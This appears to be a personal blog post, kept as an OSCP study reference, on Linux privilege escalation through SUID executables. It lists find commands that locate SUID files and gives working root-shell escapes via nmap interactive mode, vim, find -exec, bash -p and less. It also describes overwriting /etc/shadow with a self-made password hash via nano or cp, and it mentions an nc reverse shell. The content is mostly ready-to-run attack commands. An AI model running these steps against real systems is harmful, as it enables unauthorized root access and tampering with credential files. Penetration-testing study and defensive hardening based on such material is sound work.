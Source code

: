 ```yaml
---
layout: post
title:  "Exploiting SUIDS for Privilege Escalation"
date:   2018-11-09 10:00:00 +1100
categories: [hacking, security, privilege-escalation,oscp]
permalink: /:title:output_ext
comments: true
---
```

<br>
**Original Post:** [Pentest Lab](https://pentestlab.blog/2017/09/25/suid-executables/)

<br>
\-- Another copy/paste for my own reference I used for OSCP.<br>
\-- Known Linux executables that can allow privilege escalation are:

 * nmap
 * vim
 * find
 * bash
 * more
 * less
 * nano
 * cp

<br>**-- Find the files that can be exploited to gain root access:**

    find / -user root -perm -4000 -print 2>/dev/null
    find / -perm -u=s -type f 2>/dev/null
    find / -user root -perm -4000 -exec ls -ldb {} \;
    find / -perm -4000 -exec ls -l {} \;


<br>**nmap <= 5.21**

    nmap -V
    nmap --interactive
    nmap> !sh
    sh-3.2# whoami
    root

<br>**vim**

    vim.tiny

<br>**Press ESC key**

    :set shell=/bin/sh
    :shell

<br>**find**

    touch me
    find me -exec whoami \;
    root

\-- Now, to gain root access, we can get a reverse shell using NC or update the /etc/shadow file with a password using sslopen

     openssl passwd -1 -salt xyz  yourpass
     makepasswd --clearfrom=- --crypt-md5 <<< YourPass

\-- Use the above output, append that to root and update shadow file.

<br>**bash**<br>

    bash -p
    bash-3.2# id

<br>**more & less**<br>

    less /etc/passwd
    !/bin/sh

<br>**nano**<br>
\-- Use nano to edit the /etc/shadow file

<br>**cp**<br>
\-- Copy shadow file, add password to it and then copy the new one back to /etc/shadow

    cp /etc/shadow /tmp/shadow
    openssl passwd -1 -salt xyz  yourpass
    vi /tmp/shadow
    cp /tmp/shadow /etc/shadow
    su root
